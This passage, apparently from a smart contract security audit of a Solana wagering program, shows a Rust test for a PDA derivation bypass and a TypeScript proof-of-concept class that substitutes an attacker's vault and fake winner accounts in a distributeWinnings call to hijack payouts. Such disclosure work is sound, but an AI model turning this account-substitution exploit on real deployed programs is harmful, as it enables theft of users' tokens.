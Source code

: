 ```rust
        assert!(result.is_ok());

        // User's 5000 tokens go to attacker's fake session
    }

    #[test]
    fn test_pda_derivation_bypass() {
        let session_id = "legitimate_session";

        // Correct PDA derivation
        let (real_session_pda, _) = Pubkey::find_program_address(
            &[b"game_session", session_id.as_bytes()],
            &program_id
        );

        // Attacker creates account at different address
        let fake_session_pda = Keypair::new().pubkey();

        // Instructions accept fake PDA due to missing constraint validation
        // This breaks the entire PDA security model
    }
}
```

### Real-World Account Substitution Attack
```typescript
class AccountSubstitutionAttacker {
    private attackerKeypair: Keypair;
    private fakeVault: PublicKey;

    async setupAttack(): Promise<void> {
        // 1. Create attacker-controlled vault
        this.fakeVault = await this.createAttackerVault();

        // 2. Create fake winner accounts
        this.fakeWinners = await this.createFakeWinnerAccounts();
    }

    async hijackWinningDistribution(sessionId: string): Promise<void> {
        // 1. Get legitimate session PDA
        const realSessionPDA = this.getSessionPDA(sessionId);

        // 2. Call distribute_winnings with substituted accounts
        await this.wagerProgram.methods
            .distributeWinnings(sessionId, 0) // Declare team 0 winner
            .accounts({
                gameSession: realSessionPDA, // Real session (for legitimacy)
                gameServer: this.fakeAuthority.publicKey,
                vault: this.fakeVault, // ❌ ATTACKER'S VAULT SUBSTITUTED
                winner1: this.fakeWinners[0], // ❌ ALL ATTACKER ACCOUNTS
                winner2: this.fakeWinners[1],
                winner3: this.fakeWinners[2],
                winner4: this.fakeWinners[3],
                winner5: this.fakeWinners[4],
                tokenProgram: TOKEN_PROGRAM_ID,
            })
            .signers([this.fakeAuthority])
            .rpc();

        // 3. All winnings transferred to attacker accounts
        console.log("Successfully hijacked winnings distribution");
    }

```